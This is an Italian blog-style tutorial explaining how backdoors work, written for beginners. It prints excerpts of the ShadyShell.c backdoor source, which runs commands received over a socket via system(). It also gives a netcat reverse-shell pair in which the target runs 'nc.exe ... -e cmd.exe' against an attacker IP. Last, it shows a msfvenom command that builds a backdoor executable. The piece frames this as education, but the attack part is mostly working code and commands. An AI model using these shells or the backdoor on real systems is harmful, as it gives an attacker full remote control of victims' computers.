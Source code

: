 ```yaml
---
title: Backdoor - Fondamenti di Sicurezza Informatica
date: 2022-12-04 00:00:00 -500
categories: [Tech]
tags: [tech]
image_path: /assets/
--- 
```


## Intro

Se vi siete mai interessati di sicurezza informatica, avrete sicuramente un’idea di come le backdoor funzionano e a cosa servono. A prescindere dalla tua preparazione, in questo articolo andrò a dissezionare tutto ciò che ti serve sapere sulle Backdoor.

In particolare vedremo:

1.  Funzionamento Backdoor
2.  Shadyshell.c | codice sorgente di una Backdoor scritta in C
3.  Creazione backdoor con msfvenom + connessione remota da terminale

Alla fine di questa lettura potrai spiegare ai tuoi amici le magie di un codice di queste proporzioni:

```c
if(bind(c,&s,sizeof(s))<0)ve("bind");dup2(c,1);dup2(c,2);s.sin_port=sizeof(u); if(recvfrom(c,&b,1024,0,&u,(int*)&(s.sin_port))<0)ve("socket"); if(connect(c,&u,sizeof(u))<0)ve("socket"); do{for(*v=b,p=0;**v&&((*v-b)<512||(p=*v));(*v)++)if(p||**v=='\r'||**v=='\n') {**v=0;break;}if(p)continue;system(b); recv(c,&b,1024,0);}while(1);exit(0);
```

e se per adesso ti sembra una utopia… non ti preoccupare. Io sono Matteo e ti guiderò in questo articolo conoscendo abbastanza bene le complicanze degli studi informatici-

Farò in modo di intrattenerti e di non dilungarmi in nozioni troppo specifiche, tediose o inutili.

# Funzionamento Backdoor

Una Backdoor è un software installato nel computer di una cybervittima in qualche modo. Finché è attiva, la backdoor fa in modo di inviare informazioni e ricevere **istruzioni** da un host remoto.

Fino a qui niente di spaventoso. Giusto? ﻿  
>Beh… se un Jimmy in Texas che prende il completo controllo del tuo PC non ti spaventa, dovresti riconsiderare un attimo quello che stai per leggere.

La semplicità e versatilità delle backdoor ha fatto in modo che quasi ogni software con nefaste intenzioni contenesse un pezzo di codice dedicato a questo.

Per ora vediamone in dettaglio in funzionamento:

-  Come le backdoor iniziano una connessione tra computer
-  Perché una backdoor rende il tuo PC una marionetta

## Come si crea la connessione tra i computer

Qualcuno di voi si starà chiedendo in che modo i due computer coinvolti nell’atto di scambiarsi dati comunicano.   
Le backdoor per le comunicazioni remote sfruttano il networking, gli indirizzi IP e le porte [0-36000].

Non appena la backdoor è in funzione si ottiene una sessione **shell**. Ogni istruzione, comando o funzione inviata attraverso la backdoor viene eseguita dalla vittima.

Ogni connessione internet che un computer stabilisce avviene grazie a procedure ideate dall’Organizzazione Internazionale della Standardizzazione [ISO]. Questi hanno deciso che ogni pacchetto di rete conterrà:

-   indirizzo IP sorgente
-   indirizzo IP destinatario
-   “Porta” sorgente
-   “Porta” destinatario

La vera e propria connessione si stabilisce solo se il computer della vittima “apre” una porta a noi attaccanti. Questo avviene quando la backdoor installata nel computer della vittima avvia un processo che fa esattamente questo: aprire una porta.

Normalmente un computer tende a rifiutare ogni connessione nefasta e non identificata. Semplicemente blocca ogni connessione che coinvolge una porta chiusa.

Cosa succede però nel momento in cui apriamo una porta in attesa di qualcosa?

Quando un qualsiasi host esterno (hacker) prova a comunicare attraverso quella porta… ecco che si può stabilire una connessione ed il computer vittima ci ascolta, adesso possiamo mandargli tutto ciò che vogliamo.

Adesso che la connessione è stabilita dobbiamo fare in modo che computer vittima **interpreti** quella serie di caratteri e di bit che stiamo comodamente digitando dalla nostra tastiera.

# Perché una backdoor rende il tuo PC una marionetta

Fin ora abbiamo visto come opera una backdoor quando viene eseguita da un computer. Ciò che manca al puzzle è comprendere in che modo i comandi inviati da noi vengono eseguiti dalla vittima.

Infatti questo non avviene in modo standard, deve essere il software backdoor ad inviare le nostre stringhe di caratteri ad un interprete per i comandi. 

Potrei semplicemente dirvi che il malware backdoor ha il compito di mantenere una connessione remota in modo da ricevere e salvare ogni carattere che mandato (dall'hacker) in un buffer o array, per poi eseguirlo con l’interprete di comandi locale. Invece vi mostro un pezzo di codice di una backdoor scritta in C.

```c
  do {
    for ( * v = b, p = 0; ** v && (( * v - b) < 512 || (p = * v));
      ( * v) ++)
      if (p || ** v == '\r' || ** v == '\n')

    {
      ** v = 0;
      break;
    }
    if (p) continue;
    system(b);
    recv(c, & b, 1024, 0);
  } while (1);
  exit(0);
}
```

Spiegazione del ciclo:

>Se non ci sono problemi di overflow con l’input remoto salvato in **b**:

```
esegui system(b);
```

>Aspetta per un altro pacchetto, metti di nuovo l’input remoto in **b** e ripeti.

Spaventoso, vero?

Questa backdoor si chiama ShadyShell.c ed è disponibile nell’archivio di malware di vx-underground.

# Come creare una backdoor con un comando

Se ti dicessi che con un solo comando puoi creare una backdoor per (quasi) ogni sistema vulnerabile?

Immaginiamo di avere come target un server Windows, vogliamo creare un software backdoor per avere una porta di accesso a questo sistema.

Normalmente risolverei un problema del genere scrivendo uno script o dei comandi BASH specifici.

Risoluzione con Bash & netcat:

```bash
# Target: 172.16.166.130
# Attacker: 192.168.1.116

# On Attacker: set a verbose(v) communication listener(l) on port(p) 4444 
nc -lvp 4444 

# On target: connect to host end execute(e) cmd.exe
nc.exe 192.168.1.116 -e cmd.exe
```

In questo caso però vogliamo creare un software che, quando eseguito, avvia una connessione diretta.

MSFvenom è un CLI-tool (strumento via terminale) che porta con sé un numero impressionante di impostazioni specifiche per la connessione remota tra due host.

In pratica MSFvenom genera un file backdoor con le nostre preferenze di: payload, formato, target…

```bash
msfvenom -p [payload] LHOST=[our IP] LPORT=[our port] -f exe > backdoor.exe
```

Il comando creerà un file che una volta eseguito dalla vittima connetterà il computer infetto al nostro (o viceversa).   
Vedi: [bind & reverse shell | differenze e usi comuni]

semplice… anche troppo. Immagina cosa puoi fare con un [Cheat Sheet](https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/msfvenom).